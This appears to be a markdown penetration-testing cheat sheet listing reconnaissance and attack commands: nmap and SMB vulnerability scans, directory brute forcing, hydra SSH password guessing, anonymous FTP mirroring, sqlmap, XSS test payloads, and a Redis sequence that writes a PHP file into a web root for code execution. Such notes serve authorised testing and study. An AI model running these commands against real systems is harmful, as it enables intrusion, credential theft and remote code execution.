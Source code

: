 ## Initial Enumeration
### Nmap
```
nmap -sS -sC -oN initial_scan.txt {IP}  
nmap -sS -p- -oN all_ports.txt {IP}
```
```
Scripts
nmap -p 445 --script ms-sql-info <host>
nmap -p 1433 --script ms-sql-info --script-args mssql.instance-port=1433 <host>
nmap --script smb-enum-users.nse -p445 <host>
sudo nmap -sU -sS --script smb-enum-users.nse -p U:137,T:139 <host>
```
### Gobuster 
```
gobuster dir -u http://url -w /location/wordlist/file.txt  
gobuster vhost -u http://url -w /location/wordlist/file.txt  

/usr/share/seclists/Discovery/Web-Content/common.txt  
/usr/share/seclists/Discovery/Web-Content/big.txt  
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  
```


### Enum4Linux
```
enum4linux -e options http://[ip]
```

### HTTP Request Banner Grabbing
```
Using Netcat
nc <target ip> 80

This will connect to the webserver which will allow you to send a request command

Head / HTTP/1.0

Hit enter twice as all headers have two spaces between them and the request. This should then 
return the Header of the request

```
### SMB 
```
nmap -v -sS -p 445,139 -Pn --script smb-vuln* --script-args=unsafe=1 -oA smb_vuln_scan_192.168.189.42 192.168.189.42  

showmount -e 10.10.10.10  

smbclient -L 10.10.10.10

```
### Redis

```
Redis - 6379
nmap --script redis-info -sV -p 6379 <IP>

To check if the db is able to apply Server side execution run the following, then try to run the file from the browser.
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK

>info 
>get config *

https://book.hacktricks.xyz/pentesting/6379-pentesting-redis
```

### SQL
```
sqlmap -u http://192.168.202.163/login/index.php?id=1 --batch 
--batch bypasses all options when running commands

```

## Enumerating Discovered Ports

### 22 - SSH 
```
nc -vn <IP> 22
  
msf> use scanner/ssh/ssh_enumusers

hydra -L user.txt -P password.txt {IP} 22
```
  
### 21 FTP 
```
Anonymous Login Enabled
ftp {IP}
anonymous - Username
anonymous - Password 
  ls -al 
  
nmap --script ftp-* -p 21 <ip>

Downloads all files in FTP 
wget -m ftp://anonymous:anonymous@10.10.10.10

Connecting in a browser 
ftp://anonymous:anonymous@10.10.10.10
```

### 80/443 HTTP/HTTPS
#### Nikto 
```
nikto -h {URL}
nikto -h {URL} | tee nikto
```

## Subdomains 
### Sublister
```
sublist3r -d url.com
```

## XSS
### Testing if there is a xss vulnerability 
```
<script>alert("testing")</script>

```
```
xsser -u “http://192.168.169.130/xss/example1.php?name=hacker” -p (the_responce_from_the_field_intercepted_in_burp)
xsser -u “http://192.168.169.130/xss/example1.php?name=hacker” –auto –reverse-check -s
xsser -u “http://192.168.169.130/xss/example1.php?name=hacker” –heuristic
xsser –gtk - Launch interface
```

## Active Directory


### Enumeration
### Exploits
### Post Exploitation







